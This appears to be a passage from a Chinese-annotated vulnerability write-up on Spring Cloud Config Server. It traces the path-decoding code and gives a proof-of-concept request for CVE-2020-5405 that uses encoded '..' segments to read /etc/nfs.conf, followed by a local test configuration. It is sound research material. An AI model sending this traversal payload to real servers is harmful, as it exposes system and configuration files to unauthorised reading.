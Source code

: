 ```
@RequestMapping("/{name}/{profile}/{label}/**")
public String retrieve(...){
    String path = getFilePath(request, name, profile, label);  // -> decodeAndCleanUriString()
    return retrieve(name, profile, label, path, resolvePlaceholders); // -> findOne()
}
	
	
org.springframework.web.util.UrlPathHelper
private String decodeAndCleanUriString(HttpServletRequest request, String uri) {
    uri = this.removeSemicolonContent(uri);  //移除";"号
    uri = this.decodeRequestString(request, uri); //进行url解码
    uri = this.getSanitizedPath(uri);  //处理"//"
    return uri;
}

org.springframework.cloud.config.server.resource.GenericResourceRepository
public synchronized Resource findOne(String application, String profile, String label,String path) {
    String[] locations = this.service.getLocations(application, profile, label).getLocations();
    try {
	for (int i = locations.length; i-- > 0;) {
	String location = locations[i];  // location为远程git地址下载到本地的tmp目录地址
	for (String local : getProfilePaths(profile, path)) {
	    Resource file = this.resourceLoader.getResource(location).createRelative(local); // tmp目录地址和label后的内容拼接
	    if (file.exists() && file.isReadable()) {
		return file;
	    }
	}
    }
}
```
#### CVE-2020-5405 Directory Traversal
Affected Version: < 2.2.2 or 2.1.7

Diff: https://github.com/spring-cloud/spring-cloud-config/commit/651f458919c40ef9a5e93e7d76bf98575910fad0

POC:
```
GET /1/1/..%28_%29..%28_%29..%28_%29..%28_%29..%28_%29..%28_%29..%28_%29..%28_%29..%28_%29etc/nfs.conf
```
Conf:（本地）
```
info:
  component: Config Server
spring:
  application:
    name: configserver
  autoconfigure.exclude: org.springframework.boot.autoconfigure.jdbc.DataSourceAutoConfiguration
  jmx:
    default_domain: cloud.config.server
  profiles:
    active: native
  cloud:
    config:
      server:
        native:
          search-locations:
            - file:///Users/xxx/Downloads/environment/Spring/spring-cloud-config-2.2.1.RELEASE_cve_2020_5405/spring-cloud-config-server/config
```
Factor: